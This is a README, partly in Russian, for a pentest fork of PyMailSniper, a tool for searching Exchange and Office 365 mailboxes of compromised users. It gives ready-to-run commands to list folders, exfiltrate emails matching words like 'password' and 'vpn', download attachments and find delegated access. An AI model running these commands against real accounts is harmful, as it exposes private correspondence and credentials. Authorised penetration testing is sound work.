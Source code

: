 # Инфо

За основу взят проект от foofus-sph1nx - https://github.com/foofus-sph1nx/PyMailSniper

# Что и зачем

Во время пентестов, компрометируя пользователя, никогда не будет лишним изучить его почту. Но сделать это не всегда просто - трудности возникают при отсутствие GUI, пробрасывании портов и т.п. Этот форк призван облегчить жизнь максимально упростив исследование почтовых ящиков на основе MS Exchange.

Создается на основе Exchangelib - (https://github.com/ecederstrand/exchangelib)


# Documentation

1. Help Menu
   
   ``` python
   python3 pymailsniper.py -h

      _____       __  __       _ _  _____       _
     |  __ \     |  \/  |     (_) |/ ____|     (_)
     | |__) |   _| \  / | __ _ _| | (___  _ __  _ _ __   ___ _ __
     |  ___/ | | | |\/| |/ _` | | |\___ \| '_ \| | '_ \ / _ \ '__|
     | |   | |_| | |  | | (_| | | |____) | | | | | |_) |  __/ |
     |_|    \__, |_|  |_|\__,_|_|_|_____/|_| |_|_| .__/ \___|_|
             __/ |                               | |
            |___/                                |_|


   # PyMailSniper [http://www.foofus.net] (C) sph1nx Foofus Networks <sph1nx@foofus.net>
   # Fork By HydroSausager

   usage: python3 pymailsniper.py module [options]

   Python implementation of mailsniper

   optional arguments:
     -h, --help            show this help message and exit

   Modules:
     available modules

     {folders,attachment,delegation,emails}
       folders             List Mailbox Folders
       attachment          List/Download Attachments
       delegation          Find where compromised user has access
       emails              Search for Emails

   ```

2. List Folders (Eg. Inbox is in O365)
   ```
   usage: python3 pymailsniper.py module [options] folders [-h] [-s SERVER]
                                                        [-e EMAIL]
                                                        [-p PASSWORD] [-a]
                                                        [-c]

   optional arguments:
     -h, --help            show this help message and exit
     -s SERVER, --remote-server SERVER
                           EWS URL for Mail Server
     -e EMAIL, --email EMAIL
                           Email address of compromised user
     -p PASSWORD, --password PASSWORD
                           Password of compromised user
     -a, --absolute        Print folders tree instead of absolute paths if arg is
                           present
     -c, --count           Print count of child folders and email if present

   ```
   Вывести список папок в виде дерева - 
    ```python
    python3 pymailsniper.py folders -s outlook.office365.com -e xyz@domain.com -p Password1
    ```
   Вывести список папок в виде дерева с указанием кол-ва дочерних папок и писем - 
    ```python
    python3 pymailsniper.py folders -c -s outlook.office365.com -e xyz@domain.com -p Password1
    ```
   Вывести список папок (абсолютные пути) - 
    ```python
    python3 pymailsniper.py folders -a -s outlook.office365.com -e xyz@domain.com -p Password1
    ```
   Вывести список папок (абсолютные пути) с указанием кол-ва дочерних папок и писем - 
    ```python
    python3 pymailsniper.py folders -a -c -s outlook.office365.com -e xyz@domain.com -p Password1
    ```

3. Exfiltrate emails

   ```python
    python3 pymailsniper.py emails -s outlook.office365.com -e xyz@domain.com -p Password1 -t vpn,remote,password --field subject -c 100 -o emails.txt
   ```

4. List and/or Download attachments

   ```python
    python3 pymailsniper.py attachment -s outlook.office365.com -e xyz@domain.com -p Password1 -t vpn,remote,password --field subject -c 100 -d l00t
   ```

5. Check if compromised account has delegated rights to any other inboxes

   ```python
    python3 pymailsniper.py attachment -s outlook.office365.com -e xyz@domain.com -p Password1 -g list-of-emails.txt
   ```

# Things to Do

* Add functionality for extracting AD usernames
* Add functionality to dump GAL
